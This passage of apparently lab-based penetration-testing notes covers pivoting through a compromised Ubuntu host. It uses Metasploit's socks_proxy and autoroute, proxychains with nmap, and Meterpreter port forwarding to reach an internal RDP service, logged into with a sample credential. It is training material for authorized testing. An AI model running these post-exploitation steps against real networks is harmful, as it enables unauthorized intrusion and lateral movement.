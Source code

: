 ```bash
msf6 > use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set version 4a
run
...
# Confirm it's running
jobs
```

After initiating the SOCKS server, we will configure proxychains to route traffic generated by other tools like Nmap through our pivot on the compromised Ubuntu host. You can add a line in the `proxychains.conf` file if not already present

```
socks4 127.0.0.1 9050
```

Finally we need to tell our socks_proxy module to route all the traffic via our meterpreter session. We can use the `post/multi/manage/autoroute` module from Metasploit to add routes for the 172.16.5.0/23 subnet and then route all our proxychains traffic

**Creating Routes with AutoRoute**

```bash
msf6 > use post/multi/manage/autoroute
set SESSION 1
set SUBNET 172.16.5.0
run

```

**Creating Routes with autoroute by running within the Meterpreter session**

```bash
run autoroute -s 172.16.5.0/23
```

Now we can use proxychains from the attack host and run `nmap` to scan the internal network

```bash
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

#### Port Forwarding

Port forwarding can also be accomplished using Meterpreter's `portfwd` module. We can enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the 172.16.5.0/23 network.


```bash
metrpreter> portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

This makes a local port forward on the attack host on port `3330` and forwards it through the meterpreter session to the internal host's RDP port

```bash
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```
